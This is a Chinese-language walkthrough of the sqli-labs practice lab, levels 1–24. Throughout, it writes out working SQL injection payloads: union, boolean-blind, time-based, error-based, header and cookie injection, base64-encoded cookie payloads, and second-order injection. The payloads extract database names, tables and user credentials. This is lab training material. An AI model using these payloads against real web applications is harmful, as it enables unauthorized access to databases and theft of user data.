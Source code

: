 前提提示
1，获取什么类型注入
2，尝试闭合语句
第一关
判断注入
参数后面输入1'判断是否有sql注入
发现有明细sql语句报错，通过报错内容得出该数据库为mysql，并且还是显注类型。
尝试闭合
id=1 and 1=1 --+ 显示正确页面
and 1=2 --+ 因为后面加了个必假条件 所以为得到正确页面
尝试注入
order by 4判断当前表是否有4个字段，发现没有四个字段，往下延伸。只有三个字段，利用联合查询，看字段出现在页面那个位置。
在联合查询时，需要干掉前面的闭合语句，并且列数必须要与前面判断出来的一致。
利用mysql源数据库信息，注入当前有那些库名
但是通过当前页面只能看到一个原始库，大概率是在代码处加上了limit 01只取一行，所以需要利用
group_concat 来让他显示所有库
成功得到当前服务器所有库名第二关
在参数后面加\，看页面是否会返回报错信息，得到报错 near '\ LIMIT 0,1' at line 1，看这报错信息当前
语句并没有给id加上引号这些内容，可以直接在后面加注入语句。
select database()直接判断当前库。
第三关
通过报错信息，判断当前闭合 是（''）形式尝试闭合
id =1') and 1=1 --+
尝试注入出当前库有那些表
第四关
判断是否有注入
通过报错信息得出 当前闭合形式为 ("id")
尝试闭合
id=1")尝试注入当前表有那些字段
第五关
判断注入
通过报错信息 得出当前闭合为 单引号闭合
但是当前页面并没有显示任何内容，通过 and 1=1 和 1=2 判断出当前注入为布尔盲注
1=2 页面1=1 页面
尝试注入
布尔盲注 和显注的联合查询不太一样,需要更改一下注入语句
判断当前库名是否大于4
id=1 ' and (length(database())>4--+
最后得出当前库名长度为8个字符
第六关
判断注入
通过报错信息得出当前数据库 闭合为双引号的形式闭合通过 1=1 和1=2 判断出当前注入为布尔盲注
尝试注入
尝试判断服务器第一个库长度多少
?
id=1%22%20and%20%20(select%20length(schema_name)%20from%20information_schema.sche
mata%20limit%200,1)=18%20--+
第七关
判断注入
通过 1' 报错
可以得出 页面就只出现两种页面 大概率是布尔盲注，
尝试闭合
但是报错信息得不到报错的详细信息，只能通过多次尝试，来进行语句的闭合
1" and 1=1 --+
1' and 1=1 --+
1') and 1=1 --+
1')) and 1=11")) and 1=1 --+
最后得出该注入的闭合 为((''))
尝试注入
判断当前数据库长度
1')) and length(database())>4 --+
得出当前数据库长度等于8
第八关
判断注入
通过 1' 页面异常
可以得出 页面就只出现两种页面 大概率是布尔盲注，尝试闭合
但是报错信息得不到报错的详细信息，只能通过多次尝试，来进行语句的闭合
1“" and 1=1 --+
1' and 1=1 --+
1') and 1=1 --+
1')) and 1=1
1")) and 1=1 --+
最后得到 闭合形式为 单引号闭合
尝试注入
判断当前服务器第一个数据库的长度
id=1' and (select length(schema_name) from information_schema.schemata limit 0,1) >4 --+
第九关
判断注入
通过常规注入并没有发现报错，以及页面显示错误
只能尝试尝试seelp 注入了
尝试闭合
因为没有报错信息，所以无法得知闭合信息，只能爆破
?id=1" and if(length((select schema_name from information_schema.schemata limit
0,1))>1,sleep(3),1)--+
?id=1' and if(length((select schema_name from information_schema.schemata limit
0,1))>1,sleep(3),1)--+
?id=1') and if(length((select schema_name from information_schema.schemata limit
0,1))>1,sleep(3),1)--+
?id=1") and if(length((select schema_name from information_schema.schemata limit
0,1))>1,sleep(3),1)--+
?id=1')) and if(length((select schema_name from information_schema.schemata limit
0,1))>1,sleep(3),1)--+?id=1")) and if(length((select schema_name from information_schema.schemata limit
0,1))>1,sleep(3),1)--+
通过页面时间来判断是否成功
尝试注入
判断第一行数据库长度是否大于1
?id=1' and if(length((select schema_name from information_schema.schemata limit
0,1))>1,sleep(3),1)--+
第十关
同理爆破尝试，发现是双引号闭合的时间盲注。
?id=1" and if(length((select schema_name from information_schema.schemata limit
0,1))>1,sleep(3),1)--+第十一关
判断注入
输入框中 1\判断是否有注入
尝试闭合
前端页面注入，没有效果，直接通过burp重放成功。闭合形式为 单引号
1' --+
-admin' union select 1,2 --+
注入当前库名第十二关
判断注入
尝试闭合
通过页面报错判断，闭合形式为("")
闭合形式为 ("")尝试注入
注入当前服务器第二个数据库名
uname=-dumb") union select 1, schema_name from information_schema.schemata limit 1,1 --+
&passwd=dumb&submit=Submit
第十三关
判断注入
有sql语句报错尝试闭合
通过报错信息得知 当前闭合形式为('')
通过 and 1=1 and 1=2 当前注入为post形式的盲注
尝试注入
判断当前数据库长度=8判断当前数据库名字
询问当前数据库第一个字符是否等于s
uname=dumb') and (substring(database(),1,1))="s"--+&passwd=dumb&submit=Submit
利用burp爆破出当前数据库名字为secuity
第十四关
判断注入
有sql语句报错
且闭合形式为双引号闭合
尝试注入利用burp爆出当前数据库的 所有表名
and (substring((select table_name from information_schema.tables where
schema_name="security" limit 0,1),1,1))="s"
第一张表 emails
第二张表
referers
第十五关
判断注入
因为没有报错信息，所以无法闭合，只能爆破
但是界面显示有那种情况，所以可以使用布尔盲注尝试注入
爆出当前数据库用户
当前数据库用户
第十六关
判断注入
通过页面出现情况，结果为真 显示登录成功，结果为假，登录失败
尝试闭合
爆破下面结果
1"and 1=1 --+
1' and 1=1 --+
1') and 1=1 --+1')) and 1=1
1")) and 1=1 --+
最后得到闭合形式 为")
尝试注入
注入当前服务器数据库第二个数据库名字
uname=dumb")and (substr((select schema_name from information_schema.schemata limit
1,1),1,1))='g'--+&passwd=dumb&submit=Submit
bwapp
第十七关
判断注入
在前面都是针对 username这个参数名进行注入的，但是在这关 发现不管怎么测试 发现在此没有注入点
但是在password这个字段报sql语法错误，那注入点大概就是这个位置了。尝试闭合
通过报错，并不能直接看出是什么闭合形式，只能爆破
dumb ' and 1=1 --+
dumb '' and 1=1 --+
dumb ') and 1=1 --+
最后通过测试发现闭合形式 是单引号
但是测试发现布尔盲注也不行只能尝试尝试报错注入了
尝试注入
注入版本信息
uname=admin&passwd=admin' and (select extractvalue(1,concat(0x7e,@@version)))--
+&submit=Submit
注入当前服务器有多少个数据库
uname=admin&passwd=admin' and (select updatexml(1,concat(0x7e,(select
group_concat(schema_name)from information_schema.schemata )),0x7e))--+&submit=Submit注入当前数据库 users中的列
uname=admin&passwd=admin' and (select updatexml(1,concat(0x7e,(select
group_concat(column_name)from information_schema.columns where table_name="users" and
table_schema="security")),0x7e))--+&submit=Submit
第十八关
判断注入
通过页面。常规测试并没有发现注入点，但是页面出现这个，怀疑这个字段是否带入数据库了。抓包分析
但是没有发现xff字段
登录成功后会发现ua字段抓包分析
在ua后加入\出现语法错误
尝试闭合
同上发现不是显注，盲注也不行，爆破闭合形式
id=1 and 1=1 #
id=1' and 1=1 --+
id=1" and 1=1 #
id=1') and 1=1 #
id =1" 没有报语法错误，所以猜测 闭合形式为单引号尝试注入
' and updatexml(1,concat(0x7e,(select user())),0x7e),1)#
第十九关
判断注入
登录成功页面显示 一个referer，猜测在这个字段有注入，抓包分析
果然 在referer字段后面加、报sql语法错误了。
尝试闭合
同十八关一样,单引号闭合
尝试注入
注入当前数据库第二十关
判断注入
登录页面并没有发现注入，但是页面出现了一些字符串，其中包括cookie，怀疑是cookie这个位置存在
注入。
抓包分析
发现在cookie这个点存在注入。
尝试闭合
通过报错信息得知，此处闭合形式为单引号尝试注入
通过 order by 以及联合查询 判断此处存在显注
注入当前库名，用户，以及数据库版本
第二十一关
判断注入
发现这关和前面二十关及其类似，可能只是闭合形式，以及注入类型不同。
发现此处进行了编码设置通过解码发现，做了编码，base64编码。
尝试闭合
通过测试，发现语句闭合形式为 ('')最终注释为 ('') #
尝试注入
Cookie: uname=LWFkbWluJykgdW5pb24gc2VsZWN0IDEsMiwzIw==;
PHPSESSID=3rfnkp4hmelcok62annp3rvf16; security=low
利用联合查询，查看结果在哪里显示注入当前库有那些表
Cookie:
uname=LWFkbWluJykgdW5pb24gc2VsZWN0IDEsMixncm91cF9jb25jYXQodGFibGVfbmFtZSkgZnJvb
SBpbmZvcm1hdGlvbl9zY2hlbWEudGFibGVzIHdoZXJlIHRhYmxlX3NjaGVtYT0ic2VjdXJpdHkiIw==;
PHPSESSID=3rfnkp4hmelcok62annp3rvf16; security=low
第二十二关
判断注入
发现和前两关类型相似，估计又是在cookie做文章
抓包分析
根据报错信息得出此次闭合形式为双引号尝试闭合
闭合形式为双引号尝试注入
注入当前表里的所有用户密码
Cookie:
uname=LWFkbWluICJ1bmlvbiBzZWxlY3QgMSxncm91cF9jb25jYXQodXNlcm5hbWUpLGdyb3VwX2N
vbmNhdChwYXNzd29yZCkgZnJvbSBzZWN1cml0eS51c2VycyAj;
PHPSESSID=3rfnkp4hmelcok62annp3rvf16; security=low
第二十三关
判断注入
通过在参数输入\ ，出现了报错信息，所以此处存在sql注入
尝试闭合
利用常规注释后面字段，发现不行，通过爆破发现注释符只有 ;%00能用id =1' and 1=1 --+
id =1' and 1=1 ;%00
id =1' and 1=1 #
id =1' and 1=1`
order by 判断列数,发现有三列
尝试注入
判断此处注入为sql显注，并且查询后的结果出现在下图位置。
当前库中的所有表
?
id=-1%27%20union%20select%201,2,group_concat(table_name)%20from%20information_schema
.tables%20where%20table_schema%20="security";%00
第二种表的所有字段第二张表中的所有信息
?
id=-1%27%20union%20select%20group_concat(id),group_concat(referer),group_concat(ip_addres
s)%20from%20security.referers;%00
第二十四关
二阶注入，可以概括为以下两步:
• 第一步：插入恶意数据
进行数据库插入数据时，对其中的特殊字符进行了转义处理，在写入数据库的时候又保留了原来的数
据。
• 第二步：引用恶意数据
开发者默认存入数据库的数据都是安全的，在进行查询时，直接从数据库中取出恶意数据，没有进行进
一步的检验的处理。
这个例子出自sqli-lab的24关。
首先注册一个 admin'# 的用户。然后更改 admin'# 的用户的密码。
而实际上，此次更改的是用户 admin 的密码。
